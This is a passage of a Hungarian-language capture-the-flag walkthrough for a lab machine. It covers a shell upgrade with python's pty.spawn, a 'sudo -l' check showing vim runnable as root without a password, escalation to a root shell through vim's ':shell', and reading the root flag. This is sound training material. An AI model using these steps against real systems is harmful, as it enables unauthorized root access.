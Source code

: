 Kimenet:

~~~report
total 8
drwxr-x---  3 mitch   mitch   4096 aug 19  2019 mitch
drwxr-x--- 16 sunbath sunbath 4096 aug 19  2019 sunbath
~~~

># Válasz: sunbath

<hr>

<h1 style="color: #a9db92 ;"><b>9 - What can you leverage to spawn a privileged shell?</b></h1>
> 9 - Mit tud kihasználni egy privilegizált shell létrehozására? 

Amikor csatlakozunk, úgy tűnik, hogy van egy interaktív shellünk, de ez nem egy teljes értékű shell. (pl. Nincs TAB befejezés, nem tudunk nyilakat használni stb.). Ezt egyébként könnyű megkerülni:

~~~bash
mitch@Machine:~$ python -c 'import pty; pty.spawn("/bin/bash")'
~~~

Most van egy többé-kevésbé normalizált shellünk! Lássuk, mit tudunk futtatni `root`-ként, sudo nélkül:

~~~bash
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
~~~

Tehát a vim root-ként futtatható jelszó nélkül.

~~~bash
mitch@Machine:/home$ sudo vim
~~~


Most futtassuk a `vim`-et, és kezdjük el gépelni a következőket: `:shell` és `ENTER`. Hoppá! Van egy héjad `root` jogokkal! 

># Válasz: vim

<hr>

<h1 style="color: #a9db92 ;"><b>What's the root flag?</b></h1>
>Mi a root flag?

Ezt könnyen kideríthetjük:

~~~bash
root@Machine:/home# cd /root/
root@Machine:/root# cat root.txt
 ~~~

<h1 style="color: #e35757;"><b>PWNED.</b></h1>

 <hr><hr>